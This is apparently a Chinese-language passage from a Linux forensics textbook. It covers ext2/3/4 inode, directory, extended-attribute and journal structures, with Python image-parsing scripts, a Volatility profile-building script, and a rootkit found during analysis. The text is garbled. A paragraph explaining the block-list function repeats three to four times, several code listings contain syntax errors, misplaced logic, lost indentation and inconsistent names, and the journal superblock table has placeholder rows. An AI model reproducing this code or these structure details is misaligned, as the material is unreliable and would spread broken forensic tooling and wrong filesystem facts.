class Inode():
    def __init__(self, data, inodeSize=128):
        # 存储原始位向量
        self.mode = getU16(data)
        self.mode = getInode(self.mode)
        self.fileType = getInode(self.mode)
        self.ownerID = getU16(data)
        # 32 位秒数
        self.filesize = getU32(data)
        # 2038 年问题，我们需要
        # 调整此脚本以适应
        accessTime = time.get32(data, 0x)
        # 下方的额外字段
        changeTime = time.get32(data, 0x8)
        modifyTime = time.get32(data, 0xc)
        deleteTime = time.get32(data, 0x10)
        # 块组 ID
        groupID = getU16(data, 0x14)
        links = getU16(data, 0x18)
        blocks = getU32(data, 0x1c)
        # 原始位向量
        flags = getU32(data, 0x20)
        # 范围的生成器
        generation = getU32(data, 0x24)
        # 范围功能
        extents = []
        if flags & 0x80:
            # 启用范围
            extents = getTree(data[0x28:])
        else:
            # 常见的范围
            for i in range(0, 15):
                extents.append(time.gettime(data, 0x28 + i * 4))
        # 扩展属性（ACLs）
        attributes = []
        if inodeSize > 68:
            # 扩展时间
            attributes += time.get32(data, 0x64)
            # 扩展时间
            attributes += time.get32(data, 0x68)
            # 扩展时间
            attributes += time.get32(data, 0x6c)
            # 扩展时间
            attributes += time.get32(data, 0x74)
            # 扩展时间
            attributes += time.get32(data, 0x76)
            # 扩展时间
            attributes += time.get32(data, 0x78)
            # 扩展时间
            attributes += time.get32(data, 0x7a)
            # 扩展时间
            attributes += time.get32(data, 0x7c)

    def prettyPrint(self):
```


```python
for k, v in sorted(self.__dict__.items()):
    if k == 'extents' and self.extents:
        v[0].prettyPrint() # 头部
        for i in range(1, v[0].entries + 1):
            v[i].prettyPrint()
    elif k == 'changeTime' or k == 'modifyTime' or \
         k == 'accessTime' or \
         k == 'createTime':
        print k+":", time.astctime(v)
    elif k == 'deleteTime':
        if calendar.timegm(v) == 0:
            print 'Deleted': no
        else:
            print k+":", time.astctime(v)
    else:
        print k+":", v
```

```javascript
function getBlock() {
```
此函数将返回一个数据块列表。

如果正在使用范围区（`extents`），假设树只有单层，那么这应该是简单的。

对于具有多个层级的范围区和间接块，还需要额外的“磁盘访问”。

用法：`bl = getBlockList(inode, imageFilename, offset, blockSize)`

其中 `inode` 是对象，`imageFilename` 是原始镜像文件的文件名，`offset` 是文件系统起始处的 512 字节偏移量，而 `blockSize`（默认值为 4096）是数据块的大小。

```python
def getBlockList(inode, imageFilename, offset, blockSize=4096):
  # 现在获取数据块并输出它们
  datablocks = []
  if inode.extents:
    # 太棒了，我们正在使用范围区
    # 范围深度为0，这是最常见的情况
    if inode.extents[0].depth == 0:
      for i in range(1, inode.extents[0].entries + 1):
        sb = inode.extents[i].startHi * pow(2, 32) + \
        inode.extents[i].startLo
        eb = sb + inode.extents[i].len - 1 # 实际上结束于减1处
        for j in range(sb, eb):
          datablocks.append(j)
    else:
      # 加载树的这一层
      currentLevel = inode.extents
      leafNode = []
      while currentLevel[0].depth != 0:
        # 读取当前层
        nextLevel = []
        for i in range(1, currentLevel[0].entries + 1):
          blockNo = currentLevel[i].leafLo + \
          currentLevel[i].leafHi * pow(2, 32)
          currnode = getExtentTree(getDataBlock(imageFilename, \
            offset, blockNo, blockSize))
          nextLevel.append(currnode)
          if currnode[0].depth == 0:
            # 如果有叶子节点，将它们添加到列表末尾
            leafNode.append(currnode[1])
            currentLevel = nextLevel
            # 现在按逻辑块编号对列表进行排序
            leafNode.sort(key=lambda x: x.block)
            for leaf in leafNode:
                sb = leaf.startHi * pow(2, 32) + leaf.startLo
                eb = sb + len(leaf)
                for j in range(sb, eb):
                    datablocks.append(j)
  else:
    # 我们使用的是旧式的块结构
    blocks = inode.fileSize / blockSize
    # 获取直接块
    for i in range(0, 12):
        datablocks.append(inode.block[i])
        if i >= blocks:
            break
    # 现在处理间接块
    if blocks > 12:
        idatta = getDataBlock(imageFilename, offset, \
            inode.block[12], blockSize)
        for i in range(0, blockSize / 4):
            idblock = getU32(idatta, i * 4)
            if idblock == 0:
                break
        else:
            datablocks.append(idblock)
    # 现在处理双间接块
    if blocks > (12 + blockSize / 4):
        idatta = getDataBlock(imageFilename, offset, \
            inode.block[13], blockSize)
        for i in range(0, blockSize / 4):
            idblock = getU32(idatta, i * 4)
            if idblock == 0:
                break
        else:
            idatta = getDataBlock(imageFilename, offset, \
                idblock, blockSize)
            for j in range(0, blockSize / 4):
                idblock = getU32(idatta, j * 4)
                if idblock == 0:
                    break
            else:
                idata = getBlock(imageFilename, offset, \
                idblock, blockSize)
                for k in range(0, blockSize / 4):
                    idblock = getU32(idata, k * 4)
                    if idblock == 0:
                        break
                    else:
                        datablocks.append(idblock)
return datablocks
```


第一个辅助函数 `getBlock` 仅仅是定位到文件镜像中的正确位置并读取一个数据块。第二个函数 `getList` 则要复杂一些。它首先检查是否存在范围区（extents）。如果使用了范围区，则文件在 inode 块数组的四个条目中仅包含叶子节点。我们快速检查树的深度是否为 0，如果是这种情况，则直接从 inode 块数组中读取条目。我们这样做不仅是为了简化大多数情况下的代码，也是因为生成数据块不需要额外的访问。

如果我们拥有一个多层树，我们会保存当前层的 inode，并创建一个空的叶子节点列表。然后，我们在 `while currentLevel[0].depth != 0:` 这一行开始一个 `while` 循环。该循环将一直执行，直到找到树的最低层（叶子节点）为止。在遍历树的过程中，遇到的任何叶子节点都会添加到 `leafNode` 中。

退出循环后，根据逻辑块编号对 `leafNode` 中的 `leafNode` 进行排序（注：此处可能有误，应为 `leafNode.sort(key=lambda x: x.block)`）。Python 具有原地对列表进行排序的能力。为了排序列表，我们需要将一个排序函数传递给 `sort` 方法。这里就使用了 `lambda`。在 Python 中，`lambda` 是一个匿名函数。构造 `key=lambda x: x.block` 实际上等同于 `key=f(x)`，其中 `f(x)` 定义如下：

```python
def f(x):
    return x.block
```

第一个辅助函数 `getBlock` 仅仅是定位到文件镜像中的正确位置并读取一个数据块。第二个函数 `getList` 要复杂一些。它首先检查是否存在范围区。如果使用了范围区，文件在 inode 块数组的四个条目中仅包含叶子节点。我们快速检查树深度是否为 0，如果是这种情况，直接从 inode 块数组中读取条目。我们这样做不仅是为了简化大多数情况下的代码，也是因为生成数据块不需要额外的访问。

如果我们有一个多层树，我们会保存当前层的 inode 并创建一个空的叶子节点列表。然后我们在 `while currentLevel[0].depth != 0:` 这一行开始一个 `while` 循环。该循环将一直执行，直到找到树的最低层（叶子节点）为止。在遍历树的过程中，遇到的任何叶子节点都会添加到 `leafNode`。

退出循环后，根据逻辑块编号对 `leafNode` 进行排序（`leafNode.sort(key=lambda x: x.block)`）。Python 具有原地对列表排序的能力。为了排序列表，我们需要将一个排序函数传递给 `sort` 方法。这里使用了 `lambda`。在 Python 中，`lambda` 是一个匿名函数。构造 `key=lambda x: x.block` 实际上等同于 `key=f(x)`，其中 `f(x)` 定义如下：

```python
def f(x):
    return x.block
```

第一个辅助函数 `getBlock` 仅仅是定位到文件镜像中的正确位置并读取一个数据块。第二个函数 `getList` 要复杂一些。它首先检查是否存在范围区。如果使用了范围区，文件在 inode 块数组的四个条目中仅包含叶子节点。我们快速检查树深度是否为 0，如果是这种情况，直接从 inode 块数组中读取条目。我们不仅简化代码，是因为生成数据块不需要额外的访问。

如果我们有一个多层树，我们会保存当前层的 inode 并创建一个空的叶子节点列表。然后我们在 `while currentLevel[0].depth != 0:` 这一行开始一个 `while` 循环。该循环将一直执行，直到找到树的最低层（叶子节点）为止。在遍历树的过程中，遇到的任何叶子节点都会添加到 `leafNode`。

退出循环后，根据逻辑块编号对 `leafNode` 进行排序（`leafNode.sort(key=lambda x: x.block)`）。Python 具有原地对列表排序的能力。为了排序列表，我们需要将一个排序函数传递给 `sort` 方法。这里使用了 `lambda`。在 Python 中，`lambda` 是一个匿名函数。构造 `key=lambda x: x.block` 实际上等同于 `key=f(x)`，其中 `f(x)` 定义如下：

```python
def f(x):
    return x.block
```

第一个辅助函数 `getBlock` 仅仅是定位到文件镜像中的正确位置并读取一个数据块。第二个函数 `getList` 要复杂一些。它首先检查是否存在范围区。如果使用了范围区，文件在 inode 块数组的四个条目中仅包含叶子节点。我们快速检查树深度是否为 0，如果是这种情况，直接从 inode 块数组中读取条目。我们不仅简化代码，是因为生成数据块不需要额外的访问。

```python
#!/usr/bin/python

### icat.py

# 这是一个简单的 Python 脚本，
# 用于从 ext2/3/4 文件系统镜像打印 inode 文件。

### 为 PentesterAcademy 开发
### Phil Polstra 博士 (@ppolstra)

import extfs
import sys
import os.path
import subprocess
import time
import struct
from math import log

def usage():
    print("usage " + sys.argv[0] + "<image file> <offset> <inode number> \n"
        \"从镜像文件显示 inode 文件")
    exit(1)

def main():
    if len(sys.argv) < 3:
        usage()
    # 读取第一个扇区
    if not os.path.isfile(sys.argv[1]):
        print("File " + sys.argv[1] + " 无法读取")
        exit(1)
    emd = extfs.ExtMetadata(sys.argv[1], sys.argv[2])
    # 获取 inode 位置
    inodeLoc = extfs.getInodeLoc(sys.argv[3], \
        emd.superblock.inodesPerGroup)
    offset = emd.bgdlist[inodeLoc[0]].inodeTable * \
        emd.superblock.blockSize +
        inodeLoc[1] * emd.superblock.inodeSize
    with open(str(sys.argv[1]), 'rb') as f:
        f.seek(offset + int(sys.argv[2]) * 512)
        data = str(f.read(emd.superblock.inodeSize))
        inode = extfs.Inode(data, emd.superblock.inodeSize)
        datblock = extfs.getBlockList(inode, sys.argv[1], sys.argv[2], \
            emd.superblock.blockSize)
        for db in datblock:
            sys.stdout.write(extfs.getDataBlock(sys.argv[1], long(sys.argv[2]), \
                db, emd.superblock.blockSize))

if __name__ == "__main__":
    main()
```


针对 `rootkit` 关联 `inode` 运行 `icat` 的结果如图 7.23 所示。脚本的输出已管道到 `xxd`，以便正确显示此程序中的十六进制值。截图显示了多个嵌入字符串，其中包含错误信息，甚至还有反转密码“`sw0rdm4n`”。

# 图 7.23

`icat.py` 针对 PFE 目标系统中与 `rootkit` 关联的 `inode` 的部分结果。输出已通过 `xxd` 处理。请注意，截图中可以看到几条错误信息和远程登录密码。

## 目录条目

我们已经了解到 `inode` 包含了文件的所有元数据。它们还包含了文件数据块的位置。关于文件，唯一未知的就是它的名称。`inode` 和文件名之间的这种连接是在目录中建立的。不出意外，在 Linux 这种万物皆文件的操作系统中，目录是存储在文件中的。在本章早些对 `inode` 的讨论中，我们提到 `inode 2` 用于存储根目录。

经典的目录条目由一个 4 字节的 `inode` 号、后续一个 2 字节的记录长度、然后是 2 字节的名称长度，最后是长度最多 255 个字符的名称。如表 7.15 所示。名称长度是两个字节，但最大名称长度只能用一个字节存储。这最初可能是为了字节对齐的考虑。

### 表 7.15 经典的目录条目结构。

| 偏移量 | 大小 | 名称 | 说明 |
|---|---|---|---|
| 0x0 | 4 | Inode | inode |
| 0x4 | 2 | Rec len | 记录长度 |
| 0x6 | 2 | Name len | 名称长度 |
| 0x8 | | | 名称字符串（最多 255 个字符） |

在意识到高位字节未被使用后，创建了一项（不兼容的）文件系统特性“文件类型（File Type）”，以重新利用该字节来存储类型信息。为什么这会出现在不兼容特性列表中是显而易见的，因为如果将其解释为名称长度的一部分，会导致所有文件名看起来像垃圾数据。这种优化提高了任何仅对特定类型文件有意义的操作的效率，因为它消除了通过读取大量 `inode` 来确定文件类型的需要。具有 File Type 特性的系统的目录条目结构如表 7.16 所示。

### 表 7.16 启用 File Type 特性时的目录条目结构。

| 偏移量 | 大小 | 名称 | 说明 |
|---|---|---|---|
| 0x0 | 4 | Inode | inode |
| 0x4 | 2 | Rec len | 记录长度 |
| 0x6 | 1 | Name len | 名称长度 |
| 0x7 | 1 | File type | 0x00 未知 0x01 普通 0x02 目录 0x03 字符设备 0x04 块设备 0x05 FIFO 0x06 Socket 0x07 符号链接 |
| 0x8 | | Name | 名称字符串（最多 255 个字符） |

原始原始目录没有校验和，也没有完整性检查工具。为了在不破坏现有系统的情况下添加此功能，开发了一种特殊的目录条目类型，称为“目录尾（directory tail）”。目录尾的 `inode` 值为 0，这是无效的。旧系统看到这一点并假设已到达目录末尾（尾）。记录长度被正确设置为 12。目录尾的结构如表 7.17 所示。

### 表 7.17 目录尾结构。

| 偏移量 | 大小 | 名称 | 说明 |
|---|---|---|---|
| 0x0 | 4 | Inode | 设置为 0（inode 0 无效，因此被忽略） |
| 0x4 | 2 | Rec len | 记录长度（设置为 12） |
| 0x6 | 1 | Name len | 名称长度（设置为 0，因此被忽略） |
| 0x7 | | File type | 设置为 0xDE |
| 0x8 | 4 | Checksum | 目录叶块 CRC32 校验和 |

本节目前介绍的线性目录只要目录不增长得太大就是没问题的的。当目录变得很大时，实现哈希目录（hash directories）可以提高性能。与校验和一样，哈希条目存储在目录块末尾之后，以欺骗旧系统忽略它们。请记住，`inode` 中有一个 `ext4_index` 标志，它会提醒兼容系统哈希条目的的存在。

目录节点存储在哈希平衡树中，通常缩短为 `htree`。我们在在本章早些对范围区（extents）的讨论中已经见过树。熟悉 NTFS 的人知道，NTFS 文件系统上的目录存储在树中。在 NTFS 的情况下，节点根据其文件名命名。在扩展文件系统的 `htree` 中，节点根据其哈希值命名。由于哈希值只有四个字节长，会发生冲突。因此，一旦根据文件名哈希字符串比较定位了条目，如果字符串不匹配，则检查下一个条目（它应该具有相同的哈希），直到找到匹配项为止。

根哈希目录块以该目录和父目录的传统“.”和“...”目录条目开始。在这两个条目（均为 12 字节长）之后，是一个 16 字节的头头部，随后是 8 字节的条目，直到块的结束。根哈希目录块的结构如表 7.18 所示。

### 表 7.18 根哈希目录块结构。

| 偏移量 | 大小 | 名称 | 说明 |
|---|---|---|---|
| 0x0 | 12 | . | 目录条目（12 字节） |
| 0xC | 12 | ... | 目录条目（12 字节） |
| 0x18 | 4 | Inode | 设置为 0 |
| 0x1C | 4 | Rec len | 记录长度 |
| 0x20 | 1 | Version | 版本 |
| 0x21 | 1 | Flags | 标志 |
| 0x22 | 2 | Depth | 深度 |
| 0x24 | 2 | Count | 计数 |
| 0x28 | 4 | Hash | 哈希值 |

```
break

return retVal
```

上面的代码中没有新技术。我们也可以创建一个新脚本 `ils.py`，它将根据索引节点（`inode`）而不是目录名来创建目录列表。该新脚本的代码如下。你可能会注意到此脚本与 `icat` 非常相似，主要区别在于数据被解释为目录，而不是写入标准输出。

```python
#!/usr/bin/python

#
### ils.py
#
# 这是一个简单的 Python 脚本，它将
# 从镜像文件的 ext2/3/4 文件系统中
# 打印 inode 的文件信息。
#
### 为 PentesterAcademy 开发
# 作者：Phil Polstra 博士 (@ppolstra)

import extffs
import sys
import os.path
import subprocess
import struct
import time
from math import log

def usage():
    print("usage " + sys.argv[0] + " <image file> <offset> <inode number> \n"
          "Displays directory for an inode from an image file")
    exit(1)

def main():
    if len(sys.argv) < 3:
        usage()
    # 读取第一个扇
    if not os.path.isfile(sys.argv[1]):
        print("File " + sys.argv[1] + " cannot be opened for reading")
        exit(1)

    emd = extffs.ExtMetadata(sys.argv[1], sys.argv[2])
    # 获取 inode 位置
    inodeLoc = extffs.getInodeLoc(sys.argv[3], \
        emd.superblock.inodesPerGroup)

    offset = emd.bgdList[inodeLoc[0]].inodeTable \
* emd.superblock.blockSize + \
inodeLoc[1] * emd.superblock.inode

with open(sys.argv[1], 'rb') as f:
    f.seek(offset + int(sys.argv[2]) * 512)
    data = str(f.read(emd.superblock.inodeSize))
    inode = extfs.Inode(data, emd.superblock.inodeSize)
    datblock = extfs.getBlockList(inode, sys.argv[1], sys.argv[2], \
    emd.superblock.blockSize)
```

```python
data = ""
for db in datblock:
    data += extfs.getBlock(sys.argv[1], long(sys.argv[2]), db,
    emd.superblock.blockSize)
```


```
dir = extfs.getDirectory(data)

for name in dir:

    fname.prettyPrint(name)

if __name__ == "__main__":

    main()
```

针对 PFE 目标系统的根目录（inode 2）和 `/tmp` 目录运行新脚本的结果分别如图 7.24 和图 7.25 所示。我们注意到 `lost-found` 目录位于 inode 11 中，这是预期的位置。在图 7.25 中，高亮了两个与 rootkit 关联的文件。


图 7.24
针对 PFE 目标系统的根目录运行 `ils.py`。

# 图 7.25
针对 PFE 目标系统的 `/tmp` 目录运行 `ils.py`。

## 扩展属性

扩展文件系统族支持扩展属性（extended attributes）。扩展属性首次用于用于访问控制列表（ACLs）。虽然现在扩展属性存储 ACLs 并不罕见，但只要属性名以“user.” 开头，就可以作为用户属性存储几乎任何内容。需要注意的是，在实现 ACLs 时，旧版本的内核要求使用正确的挂载选项。这就是在进行现场分析时捕获挂载信息的另一个原因。

如果扩展属性较小，可以存储在节点之间的额外空间中。目前有 100 字节的额外空间。较大的扩展属性可以存储在节点中 `file acl` 指向的数据块。攻击者可能会使用用户属性在被黑的系统上隐藏信息。这与使用备用数据流（ADS）向 NTFS 文件系统上的文件附加隐藏信息类似。用户属性和 ADS 之间有一个重要的区别：Linux 上有标准工具来显示扩展属性，你不需要像使用 ADS 那样知道确切的名称。

然而，无论存储在节点还是数据块中，在这两种情况下，inode 内部的头部仅包含 4 字节魔数。存储在节点和数据块中的属性的扩展属性头部结构分别如表 7.22 和表 7.23 所示。

### 表 7.22. inode 中属性的扩展属性头部。

| 偏移量 | 大小 | 名称 | 说明 |
|---|---|---|---|
| 0x0 | 4 | Magic no | 0xEA020000 |

### 表 7.23. 数据中属性的扩展属性头部。

| 偏移量 | 大小 | 名称 | 说明 |
|---|---|---|---|
| 0x0 | 4 | Magic no | 0xEA020000 |
| 0x4 | 4 | Ref count | 引用计数 |
| 0x8 | 4 | Blocks | 用于存储扩展属性的块 |
| 0xC | 4 | Hash | 哈希值 |
| 0x10 | 4 | Checksum | 校验和 |
| 0x14 | 12 | Reserved | 预留 |

扩展属性项紧随头部之后。扩展属性项如表 7.24 所示。注意使用索引来存储。

### 表 7.24. 扩展属性项。

| 偏移量 | 大小 | 名称 | 说明 |
|---|---|---|---|
| 0x0 | 1 | Name len | 属性名长度 |
| 0x1 | 1 | Index | 0x0 = 无前缀；0x1 = user；0x2 = system.posix_acl_access；0x3 = system.posix_acl_default；0x4 = trusted；0x6 = security；0x7 = system；0x8 = system.richacl |
| 0x2 | 2 | Value offs | 距离索引或块起始的偏移 |
| 0x4 | 4 | Value block | 存储值的磁盘块，如果在 inode 中为0 |
| 0x8 | 4 | Value size | 值的长度 |
| 0xC | 4 | Hash | 块中属性的哈希，如果在 inode 中为0 |
| 0x10 | | Name | 无后缀的属性名 |

显示扩展属性和 ACL 的标准 Linux 命令分别是 `getattr` 和 `getfacl`。令人的是，修改扩展属性和 ACL 的命令分别是 `setattr` 和 `setfacl`。详情参见 man 页。这些命令的基本用法在图 7.26 中演示。


图 7.26
使用命令设置扩展属性。以下代码将为 `extfs` 模块添加扩展属性支持。代码中没有之前讨论过的技术。

```python
printAttrPrefix

def printAttrPrefix(index):

    if index == 0 or index > 8:

        return ""

    elif index == 1:

        return "user"

    elif index == 2:

        return "system.posix_acl_access"

    elif index == 3:

        return "system.posix_acl_default"

    elif index == 4:

        return "trusted."

    elif index == 6:

        return "security."

    elif index == 7:

        return "system."

    elif index == 8:

        return "system.richacl"
```

类 `ExtAttrEntry`。存储带前缀的扩展属性结构。用法：`ea = ExtAttrEntry(data, offset=0)`，`data` 是表示扩展属性的字符串，`offset` 是该项在该块中的起始点。

```python
class ExtAttrEntry():

    def __init__(self, data, offset=0):

        self.nameLen = getU8(data, offset + 0x0)

        self.nameIndex = getU8(data, offset + 0x1)

        self.valueOffset = getU16(data, offset + 0x2)

        self.valueBlock = getU32(data, offset + 0x4)

        self.valueSize = getU32(data, offset + 0x8)

        self.valueHash = getU32(data, offset + 0xc)

        self.name = printAttrPrefix(self.nameIndex) + \
            str(data[offset + 0x10: offset + 0x10 + self.nameLen])
```

用法：`getAttrsFromBlock(imageFilename, blockNo, blocksize)`，`imageFilename` 是 ext2/3/4 镜像，`offset` 是到文件系统起始处的 512 字节扇区偏移，`blockNo` 是持有扩展属性的数据块，`blocksize` 是文件系统块大小（默认 4k）。

```python
def getAttrsFromBlock(imageFilename, offset, \
    blockNo, blockSize=4096):

    data = getDataBlock(imageFilename, offset, \
        blockNo, blockSize)

    return getExtAttrsHelper(False, imageFilename, \
    offset, data, blockSize)
```

用法：`getAttrsInInode(imageFilename, offset, data, blocksize)`，`imageFilename` 是 ext2/ext3/ext4 镜像，`offset` 是到文件系统起始处的 512 字节偏移，`data` 是持有扩展属性的压缩字符串，`blocksize` 是文件系统块大小（默认 4k）。

```python
def getAttrsInInode(imageFilename, offset, data, blockSize=4096):

    return getExtAttrsHelper(True, imageFilename, offset, data, blocksize)

# 这是后续两个函数的辅助函数

def getExtAttrsHelper(inInode, imageFilename, offset, data, blockSize=4096):

    # 前四个字节是魔数

    retVal = ()
```


```python
if getU32(data, 0) != 0xEA020000:
    return retVal

done = False

if inInode:
    i = 4
else:
    i = 32

while not done:
    eae = ExtAttrEntry(data, i)

    # 是否为扩展属性
    if eae.nameLen == 0 and eae.nameIndex == 0 and eae.valueOffset == 0 \
        and eae.valueBlock == 0:
        done = True
    else:
        # 在 inode 内部还是外部块？
        if eae.valueBlock == 0:
            v = data[eae.valueOffset : eae.valueOffset + eae.valueSize]
        else:
            v = getDataBlock(imageFilename, offset, eae.valueBlock, \
                blockSize) : eae.valueOffset + eae.valueSize]

        retVal[eae.name] = v

    i += eae.nameLen + 12
    if i >= len(data):
        done = True

return retVal
```

以下脚本可用于镜像中 inode 的扩展属性（extended attributes）。我包含它主要是为了保持完整性。如果你挂载了该文件系统镜像，可以使用本节讨论的标准系统工具轻松地列出这些属性。

```python
#!/usr/bin/python

#
### getattr.py
#

# 这是一个简单的 Python 脚本，用于打印
# 镜像文件中 ext2/3/4 文件系统内部的 inode 扩展属性。
#

### 为 PentAcademy 开发
### 作者：Dr. Phil Polstra (@ppolstra)

import extfs
import sys
import os.path
import subprocess
import struct
import time
from math import log

def usage():
    print("usage " + sys.argv[0] + " <image file> <offset> <inode number> \n"
          ""显示镜像文件中的扩展属性")
    exit(1)

def main():
    if len(sys.argv) < 3:
        usage()

    # 读取第一个扇区
    if not os.path.isfile(sys.argv[1]):
        print("File " + sys.argv[1] + " cannot be opened for reading")
        exit(1)

    emd = extfs.ExtMetadata(sys.argv[1], sys.argv[2])

    # 获取 inode 位置
    inodeLoc = extfs.getInodeLoc(sys.argv[3], \
        emd.superblock.inodesPerGroup)

    offset = emd.bgbdList(inodeLoc[0]) * \
        emd.superblock.blockSize + inodeLoc[1] * emd.superblock.inodeSize

    with open(str(sys.argv[1]), 'rb') as f:
        f.seek(offset + int(sys.argv[2]) * 512)
        data = str(f.read(emd.superblock.inodeSize))
```

```python
inode = extfs.inode(data, emd.superblock.inodeSize)

if inode.hasExtendedAttributes:
    # 是在 inode 闲隙区域还是数据块中
    if inode.extendAttrib == 0:
        attrs = extfs.getAttrsInInode(filename, offset, \
            data[inode.inodeSize:], emd.superblock.blockSize)
    else:
        attrs = extfs.getAttrsFromBlock(filename, offset, \
            blockNo, emd.superblock.blockSize)
        for k, v in attrs.items():
            print("%s: %s" % (k, v))
else:
    print('Inode %s has no extended attributes' %s % (sys.argv[3]))

if __name__ == "__main__":
    main()
```


### 日志（JOURNALING）

如前所述，日志（journal）用于增加文件系统处于一致状态的概率。在 Linux 中，大多数情况下日志行为是高度可配置的。默认情况下只通过日志写入元数据（而不是数据块）。这样做是为了性能考虑。可以通过挂载数据选项更改默认设置。`option=journal` 选项会导致所有数据块都通过日志写入。还有其他选项。详情请参见挂载页（`mount` page）。

日志会导致数据写入两次。第一次数据以尽可能快的速度写入磁盘。为了实现这一点，日志存储在一个块组中，并且通常是该组中唯一存储的。这最小化减少了磁盘寻道时间。随后，在数据提交到日志后，操作系统会将数据写入磁盘上的正确位置，然后擦除提交记录。这不仅提高了数据完整性，还通过在写入磁盘之前缓存许多小写操作提升了性能。

日志通常存储在 inode 8 中，但也可以选择存储在外部设备上。后者并不常见。无论存储在何处，日志都包含一个描述自身的特殊超级块（superblock）。在直接检查日志时，重要的是意识到日志是以大端序（big endian）格式存储信息的。日志超级块总结在表 7.25 所示。

表 7.25. 日志超级块。

| | | | |
|---|---|---|---|
| 0x8 | be32 | h_sequence | 此块的事务 ID |
| 0xC | be32 | s_blocksize | 日志设备大小。 |
| 0x10 | be32 | s_maxlen | 此日志中的总块总数。 |
| 0x14 | be32 | s_first | 日志信息的第一个块。 |
| 0x18 | be32 | s_sequence | 日志中预期的第一个提交 ID。 |
| 0x1C | be32 | s_start | 日志开始的编号。 |
| 0x20 | be32 | s_errno | 错误值，由 `jbd2_journal_abort()` 设置。 |
| 0x24 | be32 | s_feature_compat | 兼容性特征。0x1 = 日志维护校验和 |
| 0x28 | be32 | s_feature_incompat | 不兼容特征集。 |
| 0x2C | be32 | s_feature_ro_compat | 只读兼容特征集。目前尚没有。 |
| 0x30 | u8 | s_uuid[16] | 日志的 128 位 uuid。这在挂载时，会与 ext4 超级块中的副本进行比较。 |
| 0x40 | be32 | s_uuid | 开始的编号 |
| 0x44 | be32 | s_max | ...的位置 |
| 0x48 | be32 | s_max | ...的位置 |
| 0x4C | be32 | s_max | ...的位置 |
| 0x50 | u8 | s_type | ...的校验和 |
| 0x51 | be32 | s_checksum | ...的校验和 |
| 0xFC | be32 | s_padding | 填充 |
| 0x100 | u8 | s_users | 所有 ...的 ID |

它应该与 Volatility 模块 `module.c` 和 `Makefile` 位于相同的目录下，这些文件可以在 volatility 层次结构下的 `tools/linux` 目录找到。脚本如下。

```bash
#!/bin/bash

### create-profile.sh

#
# 用于为 Volatility profile 创建 makefile 的简单脚本。
# 旨在配合镜像文件使用。
# 由 PentesterAcademy 的
# Phil Polstra 博士 (@ppolstra) 开发。

usage() {
  echo "从挂载的镜像文件创建 Volatility profile 的脚本"
  echo "用法: $0 <镜像根目录路径>"
  exit 1
}

if [ $# -lt 1 ]; then
  usage
fi

oldir=${1}/boot
cd ${oldir}
nver=$(ls System.map* | sed "s/System.map//" | tr "\n" "\|" \
  | sed -nr 's/\([a-zA-Z0-9.\-]+\)\|([a-zA-Z0-9.\-]+\)\$/\2/p' \
  | sed "s/nn//"
cd ${oldir}

echo "Version: ${ver}"
PWD=$(pwd)
MAKE=$(which make)

cat <<EOF Makefile.${ver}
obj-m += module.o
-include dwarf version.mk
dwarf: dwarf
dwarf: module.c
  $(MAKE) -C ${1}/lib/modules/${ver}/build \
  CONFIG_DEBUG_INFO=y M="${PWD}" > module.dwarf
dwarfdump -di module.ko
  $(MAKE) -C ${1}/lib/modules/${ver}/build M="${PWD}" clean
clean:
  $(MAKE) -C ${1}/lib/modules/${ver}/build M="${PWD}" clean
  rm -f module.d
EOF
```

```bash
### 创建 dwarf 文件
make -f Makefile.${ver}

### 拷贝 System.map 文件
cp ${1}/boot/System-map-${ver} ./

### 现在制作 zip 包
zip Linux${ver}.zip module.dwarf System-map-${ver}
```


让我们逐步分析这个脚本。它以 she-bang、用法说明开始，并在切换到目标对象的 `/boot` 目录之前，将命令行参数数量保存在 `oldir=$(pwd)` 行中。脚本的下部分尝试通过 `System.map` 文件名来修复正确的内核版本。由于可能安装了多个内核，这变得有些复杂。

为了该脚本，我们假设目标对象运行的是安装的最新内核版本。这是为什么你应该在关机之前在目标系统上运行 `-a` 的另一个原因。确定内核版本的行之所以如此复杂，是因为可能存在多个 `System.map` 文件。让我们拆解 `ver=...`

第一个命令是 `ls System.map*`，它导致所有的 `System.map` 文件输出到同一行。下一个命令 `sed "s/System.map/-"` 简单地剥离了前缀，留下一个内核版本列表，每行一个。第三个命令 `tr "\n" "|"` 将字符转换为垂直竖线，从而将所有内容放在同一行。第四个命令包含一个长正则表达式和一个替换命令。

一旦识别出版本，脚本将通过 `cd "$(oldir)"` 这一行返回原始目录。环境变量被包含在大括号中，因为这比使用基础变量（如 `${oldir}`）更安全，后者有时会被误解。当前工作目录和 `make` 命令的完整路径分别保存在 `PWD` 和 `MAKE` 环境变量中。

`cat <<EOF Makefile.${ver}` 行与我们之前使用的 `cat <<EOF` 有些不同。在这里，我们将 `cat` 的输出重定向到文件，而不是终端或其他程序。随后的行“EOF”用于创建一个 `Makefile`。对于不熟悉 `Makefile` 的人，它们通过仅重新构建必要的部分来更高效地构建软件。Makefile 的通用格式是读取 `<target>: [dependencies]`，后面紧跟着一个用制表符缩进的构建目标的命令列表。缩进行必须使用制表符而不是空格，`make` 工具才能正确解析它们。

通常通过简单输入 `make [target]` 来使用 makefile。为了使用这种形式的 `make`，当前目录下必须存在一个名为 `Makefile` 的文件。`make` 的 `-f` 选项允许指定备用的 Makefile。这正是我们在脚本中所做的。脚本的最后几行运行 `make` 来创建一个 dwarf 文件；从系统拷贝 `System.map`；创建一个 Volatility 使用的 zip 文件。从该输出生成的 profile 如图 8.1 所示。


图 8.1

一旦构建了 profile，将其拷贝到 `volatility/plugins/overlays/linux` 目录。对于我的笔记本电脑，完整路径是 `/usr/local/lib/python2.7/dist-packages/volatility-2.4-py2.7.egg/plugins/overlays/linux`。如图 8.2 所示，此目录中的任何有效 zip 文件都会变成有效的 Volatility Linux profile。`vol.py -info` 命令运行 Volatility 并列出所有可用 profile 和其他信息。如果你将结果通过给 `grep`，例如 `vol.py -info | grep Linux`，它将如如图所示提供一个 profile 列表（以及其他几项）。


图 8.2

一旦构建了 profile，...

### 图 8.4

一些可 Volatility Linux 命令。

Volatility 为 Linux 系统提供了许多进程命令。其中最简单的是 `linux_pslist`，它通过遍历任务列表生成任务列表。该命令输出进程名称、进程 ID (PID)、用户 ID (UID) 和组 ID (GID)（以及其他几个你可能不需要的字段）。在我们的 PFE 目标系统上运行此命令的部分输出如图 8.5 所示。高亮行显示了一个在进程 3027 中以 root 权限运行的与形意拳（Xing Yi Quan）rootkit 相关的 shell。


### 图 8.5

Volatility linux_pslist 命令的局部输出。高亮行显示了一个以管理员权限运行的 rootkit shell。

